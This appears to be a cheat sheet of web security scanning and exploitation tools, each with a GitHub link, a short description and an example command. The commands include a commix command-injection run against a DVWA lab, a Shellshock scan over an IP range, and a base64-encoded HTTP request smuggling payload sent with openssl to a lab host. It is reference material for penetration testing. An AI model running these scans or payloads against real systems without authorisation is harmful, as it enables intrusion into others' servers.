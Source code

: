 https://github.com/sullo/nikto
<br># Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.
<br>```nikto -ssl -host www.example.com```

https://github.com/wpscanteam/wpscan
<br># WordPress Security Scanner
<br>```wpscan --disable-tls-checks --ignore-main-redirect --user-agent 'Mozilla' -t 10 --force --wp-content-dir wp-content --url blog.example.com```

https://github.com/droope/droopescan
<br># A plugin-based scanner that aids security researchers in identifying issues with several CMS.
<br>```droopescan scan drupal -u example.com```

https://github.com/projectdiscovery/nuclei
<br># Nuclei is used to send requests across targets based on a template leading to zero false positives and providing fast scanning on large number of hosts.
<br>```nuclei -l urls.txt -t cves/ -t files/ -o results.txt```

https://github.com/six2dez/reconftw
<br># reconFTW is a tool designed to perform automated recon on a target domain by running the best set of tools to perform enumeration and finding out vulnerabilities.
<br>```reconftw.sh -d target.com -a```

https://gobies.org
<br># The new generation of network security technology achieves rapid security emergency through the establishment of a complete asset database for the target.

https://github.com/commixproject/commix
<br># By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or HTTP header.
<br>```python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"```

https://github.com/MrCl0wnLab/ShellShockHunter
<br># Shellshock, also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014.
<br>```python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl```

https://github.com/crashbrz/WebXmlExploiter/
<br># The WebXmlExploiter is a tool to exploit exposed by misconfiguration or path traversal web.xml files.

### HTTP Request Smuggling
https://github.com/defparam/smuggler
<br># An HTTP Request Smuggling / Desync testing tool written in Python 3.
<br>```python3 smuggler.py -q -u https://example.com/```
<br>
<br># Attacking through command line a HTTPS vulnerable service. Good for persistence when no one believes in you.
<br>```echo 'UE9TVCAvIEhUVFAvMS4xDQpIb3N0OiB5b3VyLWxhYi1pZC53ZWItc2VjdXJpdHktYWNhZGVteS5uZXQNCkNvbm5lY3Rpb246IGtlZXAtYWxpdmUNCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkDQpDb250ZW50LUxlbmd0aDogNg0KVHJhbnNmZXItRW5jb2Rpbmc6IGNodW5rZWQNCg0KMA0KDQpH' | base64 -d | timeout 1 openssl s_client -quiet -connect your-lab-id.web-security-academy.net:443 &>/dev/null```

